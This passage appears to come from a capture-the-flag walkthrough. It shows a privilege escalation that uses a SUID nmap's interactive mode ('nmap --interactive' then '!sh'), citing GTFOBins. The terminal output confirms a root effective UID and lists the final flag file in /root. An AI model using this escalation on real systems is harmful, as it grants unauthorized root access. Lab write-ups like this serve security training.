 ```sh
```

looking at [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/) we can see that we can spawn a shell simply running:
```sh
robot@linux:/$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# ls /root
ls /root
firstboot_done	key-3-of-3.txt #the last flag
```
